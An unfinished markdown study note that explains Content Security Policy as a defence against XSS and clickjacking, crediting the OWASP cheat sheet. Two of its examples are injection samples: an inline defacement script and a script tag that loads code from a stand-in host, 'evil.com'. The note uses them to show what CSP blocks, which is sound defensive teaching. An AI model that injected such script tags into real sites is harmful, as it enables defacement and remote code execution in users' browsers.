 # Content Security Policy

It's a way to help prevent XSS, clickjacking, and cross-site leak vulnerabilities.


### Defending against XSS with CSP
1. Restricts inline javascript from running:
```JavaScript
// This won't work anymore
<script>document.body.innerHTML='defaced'</script>
```
2. Restricts the page from loading remote scripts:
```
<script src="https://evil.com/hacked.js"></script>
```
3. Prevents the execution established unsafe JavaScript `eval()`

4. You can also restrict where forms are submitted. So doing 
```bash
# If the app tries to submit forms to any other domain, it'll be blocked.
Content-Security-Policy: form-action 'self' https://trusted.example.com;
```
5. It restricts objects, so you can't use the html `object` tag to put executables on the page.

### Defending Against Framing Attacks 
To do clickjacking or something similar, the malicious website needs to load the target website in an IFrame. You used to use `X-Frame-Options` header for this, but now you use the `frame-ancestors` CSP directive.

### CSP: Choosing the policy delivery
Before we indicate the "type" or even setup the policy itself, we have to talk about how we can "deliver" or apply the CSP. You'd set the `Content-Security-Policy` in the header of the response from your web server. This is the preferred way of doing it, and you'd do this for all HTTP responses. 

### CSP Types 
Originally, you just created allow-lists which would define the content and sources that were allowed to be loaded in your HTML page. Now we can just create a "Strict". You create a strict CSP by setting some "fetch directives" and then using either a hash or nonce based mechanism.



#### TODO
Still 



### Demonstration: Tying everything together

## Credits
https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html
